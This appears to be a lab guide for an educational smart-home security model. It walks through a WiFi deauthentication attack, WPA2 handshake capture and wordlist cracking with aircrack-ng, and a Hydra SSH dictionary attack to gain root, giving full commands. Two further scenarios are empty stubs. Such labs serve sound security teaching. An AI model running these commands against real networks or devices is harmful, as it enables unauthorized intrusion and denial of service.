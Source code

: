 # Instructions for Running Attack Scenarios

__WARNING:__ The following scenarios are intended only for educational purposes for use with this specific Cyberphysical Systems educational tool. Do not try to attempt these attacks on any network for which you do not have __express permission__ to conduct them. Obtaining unauthorized access into any WiFi network is illegal in most countries and you can be prosecuted to the full extent of the law.

## 1. Denial-of-Service (DOS) Attack

A denial-of-service (DOS) attack works by flooding a network with SYN packets without going through the proper three-way handshake authentication to complete the connection. This overloads the network and prevents legitimate users from gaining access.

To run our DOS attack scenario on the model:

1. Boot into Kali Linux.
2. Open up a terminal window and type the command `iwconfig` to view what network cards your machine has available. If you see nothing at this step, you need to properly configure your computer's wireless network card before continuing.
3. Type `airmon-ng check` in the terminal to view any running processes that may interfere with the DOS attack. If any processes come up, use `airmon-ng check kill` to terminate them.
4. Use `airmon-ng start <interface>` where `<interface>` is the name of the wireless card interface from step 2. This will alter the name of the interface going forward, so use `iwconfig` again to view the new name. Typically, it will be the same name as before win 'mon' appended to the end. For future steps, we will refer to this new name as `<interface-mon>`.
5. Now, use the airodump-ng tool to capture the BSSID of the target access point by running `airodump-ng <interface-mon>`. Look through the list of access points, locate the desired target, and copy its BSSID.
6. Note the listed channel for the target access point, and set it to your target channel with `iwconfig <interface-mon> channel <channel#>`
7. Before beginning the attack, connect to the model's WiFi on another device and open the NodeRed dashboard in a web browser and navigate to 192.168.3.1:1880/ui/ to view the dashboard with live webcam view.
8. Run `aireplay-ng -0 0 -a <BSSID> <interface-mon>` to begin the DOS attack. If you check the webcam livestream on the dashboard, once the attack has started the stream will freeze.
9. To stop the attack, in your terminal press Ctrl + c. Once the attack is stopped, after a short delay the webcam stream should resume as normal.
1. To re-enable your computer's wireless capabilities, run `service NetworkManager restart`.

## 2. Sniffing & Cracking WPA2-Protected WiFi Password

WPA/WPA2 is one of the most widely used wireless security protocols in consumer wireless hardware, and is the protocol which provides wireless security in our model. Using a variety of penetration tools on Kali Linux, we are able to obtain the WPA2-encrypted passcode to the network, and then decrypt it. This will allow us to log into the WiFi network without ever being given the passcode itself.

To run this scenario on our model, carry out the following steps:

1. Disconnect from any wireless networks and type `airmon-ng` to list you computer's available wireless cards.
2. To kill any processes which may interfere with the next step, run `airmon-ng check kill` to stop them. 
3. Type `airmon-ng start <interface>` to activate monitor mode for your wireless card, where `<interface>` is the name of your wireless card from step 1. This will change the interface name to something new; this will be referred to as <interface-mon> in future steps.
4. Run airodump-ng with your monitor-mode wireless card with `airodump-ng <interface-mon>` to start listening to wireless traffic on nearby access points. Locate the target network and note it's BSSID and Channel number, and press Ctrl + c to stop the program when done.
5. Run the following command: `airodump-ng -c 10 --bssid <BSSID> -w /root/Desktop/ <interface-mon>`. This will intercept network handshakes necessary for cracking the password and store them on the desktop.
6. Once a client shows up on the network, open a second terminal window and run `aireplay-ng -0 2 -a <Router BSSID> -c <Client BSSID> <interface-mon>` to send deauthentication packets to the client to force a handshake between it and the router. If this is successful, in the other terminal running airodump-ng you will see "WPA handshake:" followed by a string of alphanumerals separated by colons. __This is the protected password.__
7. Stop any running processes from the previous two steps (airodump and aireplay). We will attempt to crack the password using the aircrack-ng utility combined with a robust wordlist. Kali linux comes pre-loaded with a few helpful wordlists, which can be located at /usr/share/wordlists/ . You can test a variety of these lists, but for this example you can use the list located at /usr/share/wordlists/dirb/big.txt  
8. Run `aircrack-ng -a2 -b <Router BSSID> -w /usr/share/wordlists/dirb/big.txt /root/Desktop/*.cap` to begin the cracking attempt. This will only work if the password is contained in the provided word list and may take some time to search. If this does not work, try again with a different list in the wordlists directory, or download a larger one from the internet.
9. If step 8 is successful, you will see "KEY FOUND!" with the key following in brackets. This is the password to the WiFi network.
10. To disable monitor mode and connect to the network, run `service NetworkManager restart` and connect using the newly obtained password.

[Link to Reference Source](http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)

## 3. Obtaining Root Machine Access via SSH Dictionary Attack

On Unix-based systems, the "root" user is one that has full administrative access and priviledges to all resources on the computer. This provides a high level of capability and customizability, but can be a massive security risk if the wrong person were able to gain root access. In this scenario, we will use a dictionary attack based on a large list of data in order to crack the root password on our Smart Home model.

1. Connect to the same network as the Smart Home. In this case, it is the network for the Onion Omega2. If you have not yet determined the password, obtain it by following scenario 2 above. 
2. To obtain the IP address of the device we want to connect to, in this case the Onion Omega2 powering our Smart Home, run `ifconfig` to determine the internet IP address followed by `sudo nmap -sn <nwk ip>/24` to scan for all IPs connected to the network. Search the output for anything with "Omega" and note its IP address. It should be 192.168.3.1
3. This dictionary attack requires two lists; one for usernames and one for passwords. Since we know we are searching only for the root password, we only need "root" as a username. Create a new file on your Desktop called "users.txt" and put `root` as its only contents.
4. For the list of passwords, you can try out any in the /usr/shared/wordlists/ directory, but as in step 2 we will use the one located at /usr/share/wordlists/dirb/big.txt . If this does not work for you feel free to experiment with others or download new ones from the internet.
5. To begin the attack via SSH, use the hydra command: `hydra -L /root/Desktop/users.txt -P /usr/share/wordlists/dirb/big.txt <Onion IP> ssh` . This will take some time, and may be unsuccessful. Keep trying with multiple password lists.
6. Once the attack is successful and the password is cracked, search the output for the cracked password. Try to log into the Smart Home using ssh: `ssh root@<Onion IP>` and then when prompted enter the password. If this works, congratulations! You now have root access to the Smart Home and may do anything you please.

[Link to Reference Source](https://www.hackingarticles.in/6-ways-to-hack-ssh-login-password/)
 
## 4. Using Unauthorized Access to Steal Home Information

TODO

## 5. Using Unauthorized Access to Manipulate Smart Home & Perpetrate Forced Entry

TODO
